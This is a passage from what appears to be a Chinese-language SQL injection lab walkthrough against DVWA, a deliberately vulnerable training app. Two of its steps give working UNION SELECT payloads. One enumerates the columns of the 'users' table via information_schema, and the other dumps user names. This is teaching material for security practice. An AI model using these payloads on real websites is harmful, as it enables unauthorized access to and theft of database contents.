 ​ ![dvwa_tables](images/dvwa_tables.png)

​ f. 爆出user表的字段名 `1' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'#`

​ ![dvwa_users](images/dvwa_users.png)

​ g. 列出first_name数据 `1' union select first_name,user from users#`

​ ![dvwa_first_name](images/dvwa_first_name.png)
